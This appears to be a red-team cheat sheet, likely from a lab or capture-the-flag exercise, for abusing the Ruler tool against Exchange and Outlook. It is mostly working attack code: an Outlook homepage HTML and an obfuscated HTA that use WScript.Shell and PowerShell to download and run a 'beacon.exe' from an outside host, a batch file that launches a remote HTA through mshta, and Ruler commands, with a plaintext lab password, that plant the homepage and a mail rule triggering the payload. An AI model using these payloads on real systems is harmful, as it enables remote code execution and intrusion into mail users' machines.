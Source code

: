 # Ruler (Exchange)

Ruler has been tested against the following systems:

* Exchange 2003
* Exchange 2013
* Exchange 2013 SP1
* Exchange 2016
* Office365

The following Outlook clients have been tested:

* Outlook 2010
* Outlook 2013
* Outlook 2016 (Only [Forms](https://github.com/sensepost/ruler/wiki/Forms) work by default)

```html
# test.html
<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>Outlook</title>
<script id=clientEventHandlersVBS language=vbscript>
Sub window_onload()
Set Application = ViewCtl1.OutlookApplication
Set cmd = Application.CreateObject("Wscript.Shell")
cmd.Run("powershell wget http://10.10.14.6/beacon.exe -Outfile
C:\\Windows\\Tasks\\beacon.exe;C:\\Windows\\Tasks\\beacon.exe")
End Sub
</script>
</head>
<body>
<h1> Hello Alex </h1>
<object classid="clsid:0006F063-0000-0000-C000-000000000046"
id="ViewCtl1" data="" width="100%" height="100%"></object>
</body>
</html>
```

```batch
# Evil.bat
@ECHO OFF
cmd /c "C:\Windows\System32\mshta.exe http://10.10.14.7/evil.hta"
```

```xml
# evil.hta
<script %00 >
zeroo=ActiveXObject;
SRpT="WScript"
steUyo=SRpT + ".Shell"
one=new zeroo(steUyo);
one.run('%windir%\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -exec
bypass -C "wget http://10.10.14.7/beacon.exe -outfile
C:\\Windows\\Tasks\\beacon.exe;C:\\Windows\\Tasks\\beacon.exe"' ,
0);window.close();
</script %00 >
```

### Commands

```
upload https://github.com/sensepost/ruler/releases/download/2.4.1/ruler-win64.exe
/opt/exegol-resources/linux/webdav go run webdavserv.go -p 8080    
/opt/exegol-resources/linux/webdav//webdav python3 -m http.server 80
```

#### Create Endpoint

```bash
shell ruler-win64.exe -u Robert.Lanza -p U=zk1J.TYruU* -e robert.lanza@cyber.local -d CYBER.local --insecure homepage add -u http://10.10.14.177/webdav/test.html
```

#### Check

```bash
shell ruler-win64.exe -u Robert.Lanza -p U=zk1J.TYruU* -e robert.lanza@cyber.local -d CYBER.local homepage display
```

#### Adding Rule

```bash
shell ruler-win64.exe --email robert.lanza@cyber.local --username robert.lanza --password U=zk1J.TYruU* add --location "\\10.10.14.177@8080\webdav\evil.bat" --trigger "pwn" --name maliciousrule2 --send
```
